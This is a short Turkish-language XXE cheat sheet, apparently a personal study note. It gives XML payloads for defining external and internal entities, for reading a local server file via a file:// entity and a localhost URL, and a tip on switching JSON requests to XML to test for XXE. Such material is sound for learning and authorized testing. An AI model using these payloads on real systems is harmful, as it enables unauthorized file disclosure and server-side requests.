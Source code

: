 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/xxe-cheat-sheet/"}
---
```



### 1- Temel DTD Tanımlama

```
<!DOCTYPE email SYSTEM "email.dtd">
```

Not :  XML payload'unu sunucuya gönderirken istekte `Content-Type: application/xml` ayarını yapmak yardımcı olabilir.

### 2-  External DTD Referansı

external entity --> `<!ENTITY entity_name SYSTEM “entity_value”>`

```
<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
```

### 3- İnternal Entity Tanımlama ve Kullanımı

Internal Entity --> `<!ENTITY entity_name “entity_value”>`

```
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

```
...
<email>
   &company;
</email>
...
```

### 4- External ve Dosya Sistemi Entity'leri ile Veri Çekme

```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```

### 5- JSON’dan XML’e Dönüşüm ile XXE Testi

Not: Bazı web uygulamaları HTTP isteklerinde varsayılan olarak `JSON` formatını kullanabilir, ancak XML internal diğer formatları da kabul edebilir. Bu nedenle, bir web uygulaması istekleri JSON formatında gönderse bile, `Content-Type` header'ını `application/xml` olarak değiştirmeyi deneyebilir ve ardından JSON verilerini [online](https://www.convertjson.com/json-to-xml.htm) bir araçla XML'e dönüştürebiliriz. Web uygulaması isteği XML verileriyle kabul ederse, XXE güvenlik açıklarına karşı da test edebiliriz, bu da beklenmedik bir XXE güvenlik açığını ortaya çıkarabilir.
